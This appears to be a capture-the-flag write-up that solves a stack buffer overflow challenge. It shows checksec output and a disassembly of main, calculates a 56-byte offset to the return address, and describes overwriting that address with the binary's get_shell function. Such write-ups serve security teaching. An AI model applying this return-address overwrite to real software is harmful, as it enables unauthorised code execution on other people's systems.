 **Read source code**
- As we can see there is `get_shell()` func so we use buffer overflow to overwrite the return address to the address of `get_shell`
- `Checksec` in gdb
```
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```
- `disass main`
```
   0x00000000004006e8 <+0>:     push   rbp
   0x00000000004006e9 <+1>:     mov    rbp,rsp
   0x00000000004006ec <+4>:     sub    rsp,0x30
   0x00000000004006f0 <+8>:     mov    eax,0x0
   0x00000000004006f5 <+13>:    call   0x400667 <init>
   0x00000000004006fa <+18>:    lea    rdi,[rip+0xbb]        # 0x4007bc
   0x0000000000400701 <+25>:    mov    eax,0x0
   0x0000000000400706 <+30>:    call   0x400540 <printf@plt>
   0x000000000040070b <+35>:    lea    rax,[rbp-0x30]
   0x000000000040070f <+39>:    mov    rsi,rax
   0x0000000000400712 <+42>:    lea    rdi,[rip+0xab]        # 0x4007c4
   0x0000000000400719 <+49>:    mov    eax,0x0
   0x000000000040071e <+54>:    call   0x400570 <__isoc99_scanf@plt>
   0x0000000000400723 <+59>:    mov    eax,0x0
   0x0000000000400728 <+64>:    leave
   0x0000000000400729 <+65>:    ret
```
- `buf`: rbp - 0x30
- `ret`: rbp + 0x8
- From rbp - 0x30 to rbp + 0x8 is 56 bytes
- Or we can find this adddress by subtract ret_addr and buf_addr (0x7fffffffde88-0x7fffffffde50 = 56)
=> Send 56 bytes + `get_shell` address (disass get_shell)
